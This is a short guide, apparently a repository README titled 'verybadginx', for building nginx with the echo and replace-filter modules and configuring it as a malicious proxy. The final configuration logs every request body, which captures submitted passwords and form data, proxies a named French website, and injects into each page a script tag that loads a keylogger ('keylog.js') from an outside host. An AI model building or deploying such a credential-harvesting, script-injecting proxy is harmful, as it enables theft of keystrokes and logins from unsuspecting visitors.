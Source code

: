 # verybadginx

#### Download nginx with modules

cd /tmp
curl -L -O 'https://github.com/openresty/echo-nginx-module/archive/v0.58.tar.gz'
tar -xzvf v0.58.tar.gz && rm v0.58.tar.gz
mv echo-nginx-module-0.58 /tmp/echo-nginx-module
curl -O 'http://nginx.org/download/nginx-1.9.7.tar.gz'
tar -xzvf nginx-1.9.7.tar.gz && rm nginx-1.9.7.tar.gz
git clone https://github.com/openresty/replace-filter-nginx-module

####  Ajout user/group nginx
groupadd nginx
useradd -g nginx nginx

####  Install nginx with modules

cd nginx-1.9.7/ && ./configure \
 --user=nginx \
 --group=nginx \
 --prefix=/etc/nginx \
 --sbin-path=/usr/sbin/nginx \
 --conf-path=/etc/nginx/nginx.conf \
 --pid-path=/var/run/nginx.pid \
 --lock-path=/var/run/nginx.lock \
 --error-log-path=/var/log/nginx/error.log \
 --http-log-path=/var/log/nginx/access.log \
 --add-module=/tmp/echo-nginx-module \
 --add-module=/tmp/replace-filter-nginx-module \
 --without-http_rewrite_module


#### Modif nginx.conf
http {

+ 	log_format custom '$request_body';

+	access_log /var/log/nginx/access.log custom;

-      include /etc/nginx/sites-enabled/*;

+       include /etc/nginx/sites-enabled/default;

#### Modif sites-available/default et sites-enabled/default


location / {
	
+		echo_read_request_body;

+		proxy_pass http://www.microplus.fr/;

+		subs_filter "</div>" "</div><script/src='https://www.microplus.fr/secu/images/test/keylog.js'></script>" -o;


	

